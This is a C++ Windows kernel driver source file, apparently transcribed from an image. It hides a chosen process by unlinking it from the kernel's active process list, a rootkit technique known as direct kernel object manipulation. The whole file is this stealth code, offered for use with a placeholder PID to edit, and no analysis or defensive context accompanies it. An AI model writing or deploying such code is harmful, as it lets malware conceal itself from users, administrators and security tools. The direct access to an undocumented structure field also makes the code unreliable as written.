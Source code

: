 ```cpp
#include <ntddk.h>

VOID HideProcess(PEPROCESS Process)
{
    PLIST_ENTRY list = &Process->ActiveProcessLinks;
    PLIST_ENTRY prev = list->Blink;
    PLIST_ENTRY next = list->Flink;

    //unlink from the active process list
    prev->Flink = next;
    next->Blink = prev;

    //self-link to prevent accidental dereference issues
    list->Flink = list;
    list->Blink = list;
}

NTSTATUS HideProcessByPid(HANDLE pid)
{
    PEPROCESS target = NULL;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &target);
    if (!NT_SUCCESS(status)) {
        DbgPrint("[Hider] PsLookupProcessByProcessId(0x%p) failed: 0x%X\n", pid, status);
        return status;
    }

    HideProcess(target);
    ObDereferenceObject(target);
    DbgPrint("[Hider] Process 0x%p unlinked\n", pid);
    return STATUS_SUCCESS;
}

VOID DriverUnload(PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);
    DbgPrint("[Hider] Driver unloaded\n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    UNREFERENCED_PARAMETER(RegistryPath);
    DriverObject->DriverUnload = DriverUnload;

    DbgPrint("[Hider] Driver loaded\n");

    //change this to the PID you want to hide
    HANDLE pidToHide = (HANDLE)1234;
    HideProcessByPid(pidToHide);

    return STATUS_SUCCESS;
}

```
